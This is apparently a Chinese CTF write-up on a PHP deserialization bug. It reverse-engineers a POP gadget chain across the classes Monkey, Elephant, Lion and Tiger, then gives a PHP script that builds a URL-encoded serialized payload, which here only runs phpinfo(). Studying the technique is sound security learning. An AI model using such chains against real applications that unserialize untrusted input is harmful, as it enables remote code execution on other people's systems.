 
漏洞分析：

终点为tiger类中的boss方法。起点为monkey中的wakeup方法。

进行反推，调用链为：

~~~
tiger（boss）---tiger（__invoke）-----lion（__get）-----elephant（__tostring）----monkey(__wakeup)----unserialize()
~~~

构造poc（pop链，面向属性编程）：

将上面反推的过程翻过来，也就是正推。

`monkey（__wakeup）`为出发点，$this->head的值为类实例的时候，可以触发到`__tostring`,且要触发到elephant的`__tostring`,所以赋值$this->head=new elephant()。
进入到elephant类中，下一步希望触发lion的（`__get`）,所以赋值$this->nice=new lion()。
进入到lion类中，下一步希望触发tiger（`__invoke`），所以赋值$this ->tail=new tiger()。
进入到tiger类中，需要在类中触发到boss方法，进入invike后自动调用。
pop链编写完毕，其中只对属性进行了赋值，没有详细写过程，因为这是反推时需要做的，当反推出一条可用的调用链时，需要做的就是对属性赋值，在多个类中间进行跳转，触发魔术方法的值应该是下一步的类，因为这样才能让代码跳转到下一个类中，调用到的才是这个类中的魔术方法，（正常的达成了触发魔术方法的条件，它只会在当前类中寻找触发了的魔术方法，想要触发别的类中的魔术方法，就应该将属性的值定义为其他类的实例，这样才能在不同的类中进行跳转）。

~~~
<?php

class Tiger{
    protected $var = 'phpinfo();';
}
class Lion{
    public $tail;
    public function __construct(){
        $this->tail = new Tiger();
    }
}

class Monkey{
    public $head;
    public function __construct($here="Zoo"){
        $this->head = new Elephant();
    }
}

class Elephant{
    public $nose;
    public $nice;
    public function __construct($nice="nice"){
        $this->nice = new Lion();
    }
}
echo urlencode(serialize(new Monkey()));
?>
~~~
